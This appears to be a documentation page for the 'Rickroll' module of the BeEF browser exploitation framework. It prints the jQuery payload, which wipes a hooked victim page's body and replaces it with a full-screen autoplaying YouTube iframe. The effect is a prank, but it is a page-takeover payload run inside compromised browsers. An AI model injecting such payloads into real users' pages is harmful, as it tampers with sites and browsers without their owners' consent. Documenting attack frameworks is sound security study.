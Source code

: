 ## Summary

* **Objective**: Replace the body of the page with a full screen Rickroll
* **Authors**: Yori Kvitchko
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/rickroll)

## Internal Working

By default, this replaces all `<embed>` tags to a youtube video of rickroll.


```js

$j('body').html('');

$j('body').css({'padding':'0px', 'margin':'0px', 'height':'100%'});
$j('html').css({'padding':'0px', 'margin':'0px', 'height':'100%'});

$j('body').html('<iframe width="100%" height="100%" src="//www.youtube.com/embed/DLzxrzFCyOs?autoplay=1" allow="autoplay; encrypted-media" frameborder="0" allowfullscreen></iframe>');

```

## Feedback

